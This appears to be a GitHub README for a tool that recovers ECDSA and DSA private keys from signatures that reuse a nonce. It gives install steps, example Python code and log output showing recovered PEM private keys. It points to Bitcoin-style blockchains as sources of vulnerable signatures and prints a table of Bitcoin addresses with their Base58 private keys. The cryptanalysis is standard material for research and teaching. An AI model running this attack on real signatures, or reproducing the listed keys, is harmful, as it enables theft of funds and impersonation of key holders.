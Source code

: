 # ecdsa-key-recovery
Pperform ECDSA and DSA Nonce Reuse private key recovery attacks

###### This is kind of an improved version of the DSA only variant from https://github.com/tintinweb/DSAregenK

# Setup
    $ git clone https://github.com/ianling/ecdsa-private-key-recovery.git
    $ cd ecdsa-private-key-recovery
    $ pip3 install ./

# Run examples
    $ pytest tests/ -v -s


Let's recover the private-key for two signatures sharing the same `nonce k`. Note how chosing the same `nonce k` results in both signatures having an identical signature value `r`. To find good candidates for an ECDSA nonce reuse check for signatures sharing the same `r`, `pubkey` on `curve` for different messages (or hashes). E.g. blockchain projects based off `bitcoind` are usually good sources of ECDSA signature material.

* **sampleA** (**r**, *sA, hashA*, pubkey, curve)
* **sampleB** (**r**, *sB, hashB*, pubkey, curve)

```python
sampleA = EcDsaSignature(r, sA, hashA, pubkey, curve)
sampleB = EcDsaSignature(r, sB, hashB, pubkey, curve) # same privkey as sampleA, identical r due to nonce reuse k.

# recover the private key
sampleA.recover_nonce_reuse(sampleB)  # populates sampleA with the recovered private key ready for use
print(sampleA.privkey) 
```

#### Recovering Private Keys from the Bitcoin Blockchain

[tools/README.md](tools/README.md)



| BTC Address  | Base58 Privkey |   r| 
| ------------- | ------------- | -------------|
| 1A8TY7dxURcsRtPBs7fP6bDVzAgpgP4962 |5JsYaHVGCUzuXaQ5VkaA21VFPJFuArRWfSB77sqzWkWuTMMjXsT | 113563387324078878147267949860139475116142082788494055785668341901521289846519 |  
| 1A8TY7dxURcsRtPBs7fP6bDVzAgpgP4962 | 5JsYaHVGCUzuXaQ5VkaA21VFPJFuArRWfSB77sqzWkWuTMMjXsT | 18380471981355278106073484610981598768079378179376623360720556873242139981984|
|1C8x2hqqgE2b3TZPQcFgas73xYWNh6TK9W|5JKkG6KXLCCPXN9m29ype6My7eR4AnCLaHKYrLvn6d3nd8BLjjw| 19682383735358733565748628081379024202682929012377912380310432818686294127462|
|1A8TY7dxURcsRtPBs7fP6bDVzAgpgP4962|5JsYaHVGCUzuXaQ5VkaA21VFPJFuArRWfSB77sqzWkWuTMMjXsT|6828441658514710620715231245132541628903431519484374098968817647395811175535|

### Example

create recoverable signature objects:
```python
from ecdsa_key_recovery import DsaSignature, EcDsaSignature

# specify curve
curve = ecdsa.SECP256k1

# create standard ecdsa pubkey object from hex-encoded string
pub = ecdsa.VerifyingKey.from_string(
        "a50eb66887d03fe186b608f477d99bc7631c56e64bb3af7dc97e71b917c5b3647954da3444d33b8d1f90a0d7168b2f158a2c96db46733286619fccaafbaca6bc".decode(
            "hex"), curve=curve).pubkey
            
# create sampleA and sampleB recoverable signature objects.
# long r, long s, bytestr hash, pubkey obj.
sampleA = EcDsaSignature((3791300999159503489677918361931161866594575396347524089635269728181147153565,   #r
                          49278124892733989732191499899232294894006923837369646645433456321810805698952), #s
                         bignum_to_hex(
                             765305792208265383632692154455217324493836948492122104105982244897804317926).decode(
                             "hex"),
                         pub)
sampleB = EcDsaSignature((3791300999159503489677918361931161866594575396347524089635269728181147153565,   #r
                          34219161137924321997544914393542829576622483871868414202725846673961120333282), #s'
                         bignum_to_hex(
                             23350593486085962838556474743103510803442242293209938584974526279226240784097).decode(
                             "hex"),
                         pub)
                         
# key not yet recovered
assert (sampleA.x is None)     
```

recover the private key for **sampleA**
```python
# attempt to recover key - this updated object sampleA
sampleA.recover_nonce_reuse(sampleB)    # recover privatekey shared with sampleB
assert (sampleA.x is not None)          # assert privkey recovery succeeded. This gives us a ready to use ECDSA privkey object
assert sampleA.privkey
```

#### output
```
INFO:__main__:------------EcDSA------------
DEBUG:__main__:<EcDsaSignature 0x2c7a61 sig=(3791300999…,4927812489…) public=✔ private=⨯ > - recovering private-key from nonce reuse ...
DEBUG:__main__:<EcDsaSignature 0x2c7a61 sig=(3791300999…,4927812489…) public=✔ private=✔ > - Private key recovered!
-----BEGIN EC PRIVATE KEY-----
MHQCAQEEIOdzzzX85WfQYiIDwo9nR4ozYbrn5utDZrUOHSfrHtguoAcGBSuBBAAK
oUQDQgAEpQ62aIfQP+GGtgj0d9mbx2McVuZLs699yX5xuRfFs2R5VNo0RNM7jR+Q
oNcWiy8ViiyW20ZzMoZhn8yq+6ymvA==
-----END EC PRIVATE KEY-----

DEBUG:__main__:<EcDsaSignature 0x2c7a5b sig=(3791300999…,4927812489…) public=✔ private=⨯ > - recovering private-key from nonce reuse ...
DEBUG:__main__:<EcDsaSignature 0x2c7a5b sig=(3791300999…,4927812489…) public=✔ private=✔ > - Private key recovered!
-----BEGIN EC PRIVATE KEY-----
MHQCAQEEIOdzzzX85WfQYiIDwo9nR4ozYbrn5utDZrUOHSfrHtguoAcGBSuBBAAK
oUQDQgAEpQ62aIfQP+GGtgj0d9mbx2McVuZLs699yX5xuRfFs2R5VNo0RNM7jR+Q
oNcWiy8ViiyW20ZzMoZhn8yq+6ymvA==
-----END EC PRIVATE KEY-----

INFO:__main__:------------DSA------------
DEBUG:__main__:generated sample signatures: (('\x96.\xed\x06?Tx\x87\x96\xc0Jxe\xc1\xb7\xa0}\xbaSl', (962114315288785318297754502373467834746102876259L, 152066227943132308247866282041325280216845090990L), <_DSAobj @0x2c49a80 y,g,p(1024),q>), ('\xf2\x9a\x9a\x81\xa8\x1b\x071Z1\xe28\xd3\x993\xff\xc7[b\xab', (962114315288785318297754502373467834746102876259L, 357089477795349418794190243474458899186606359757L), <_DSAobj @0x2c788f0 y,g,p(1024),q>))
DEBUG:__main__:Signature Objects: [<DsaSignature 0x2c7a5b sig=(9621143152…,1520662279…) public=✔ private=⨯ >, <DsaSignature 0x2c7a3f sig=(9621143152…,3570894777…) public=✔ private=⨯ >]
DEBUG:__main__:<DsaSignature 0x2c7a5b sig=(9621143152…,1520662279…) public=✔ private=⨯ > - recovering privatekey from nonce reuse...
DEBUG:__main__:<DsaSignature 0x2c7a5b sig=(9621143152…,1520662279…) public=✔ private=✔ > - Private key recovered!
-----BEGIN PRIVATE KEY-----
MIIBSgIBADCCASsGByqGSM44BAEwggEeAoGBAIAAAAAAAAAA8tZboZpqrRAwKtK0
mXxwct7Es1BBih3HheeLBMOHCqPlwJmfUA8kBZQZzu3V+at5IWlRi0fTikvNWuqN
GLqMkf0kqXOhzP8/hD7B/CUF1YedzGKqC2BfhX/RON+CD/mFi35As8G73O29GCUl
qMd0KYhHHtBvVPiLAhUA/5r9a94k/9/mHVub1U0WrAJv2B8CgYARyESPcKSpBEoT
nXlMrX1M71RySJL5nrqUKpFTFRSoIwX5sj7ZRfKSqbf2umwSu8LfCEOZ2qKu0+jp
+bUC0oihSjaVCrADZykPr67k9mt56xx1wP4vUJJNfM3Wkty5xsI3JtUFbQ5EzFAt
JhLRWxOqcGEm35ZPQ4ao1qZsIsSVCQQWAhRqVNUTHGUaRRA5lXlmN4sw9glosQ==
-----END PRIVATE KEY-----
DEBUG:__main__:generated sample signatures: (('\x96.\xed\x06?Tx\x87\x96\xc0Jxe\xc1\xb7\xa0}\xbaSl', (921214889680762780870505834724573810649257487648L, 1206590109737383111438209532388130932310558452933L), <_DSAobj @0x2c78cd8 y,g,p(1024),q>), ('\xf2\x9a\x9a\x81\xa8\x1b\x071Z1\xe28\xd3\x993\xff\xc7[b\xab', (921214889680762780870505834724573810649257487648L, 254170456806936279470958328275930254179957847437L), <_DSAobj @0x2c788f0 y,g,p(1024),q>))
DEBUG:__main__:Signature Objects: [<DsaSignature 0x2c7a83 sig=(9212148896…,1206590109…) public=✔ private=⨯ >, <DsaSignature 0x2c7a61 sig=(9212148896…,2541704568…) public=✔ private=⨯ >]
DEBUG:__main__:<DsaSignature 0x2c7a83 sig=(9212148896…,1206590109…) public=✔ private=⨯ > - recovering privatekey from nonce reuse...
DEBUG:__main__:<DsaSignature 0x2c7a83 sig=(9212148896…,1206590109…) public=✔ private=✔ > - Private key recovered!
-----BEGIN PRIVATE KEY-----
MIIBSwIBADCCASsGByqGSM44BAEwggEeAoGBAIAAAAAAAAAARApDBH1CEeZPeIM9
mMb6l3FyY8+AOy+cdiDzCaqlkIRVIRRxvnCH5oJ6gkinosGscZMTgF7IwQJzDHFm
oxvVdpACrj5Je+kpF6djefAbe+ByZ4FowkGq1EdMZF8aZzsik3CFkEA/vDsjvAsg
XmKRvOnFHkkFuKCRAhUA/+rcmBQ71NBsDzkbusi6NQpTNF8CgYAFVt8xSXTiCGn8
+bqWyoX+gjItArrT28o6fGnq+apjwasvWDHq1FETk/gwqTbTwWTiMo2eOTImRKDF
MbK1us+DjhloAUuhL6nCRQhsLs4Jq+8A/y7aol/HjCz1fHRKKDD9wqKDf2kWdI97
Kb2Hq4AUoJWTCT0ijX+oQJafbywjdwQXAhUAniK/kyRv/SFd1uJjuDMh0EntMws=
-----END PRIVATE KEY-----

```

The library is written in a way that it tries to upgrade `pubkey only ecdsa objects` to `private key enabled ecdsa objects` upon successful recovery. This makes it easy to work with recovered key objects. The library performs both **ECDSA** and **DSA** key recovery.
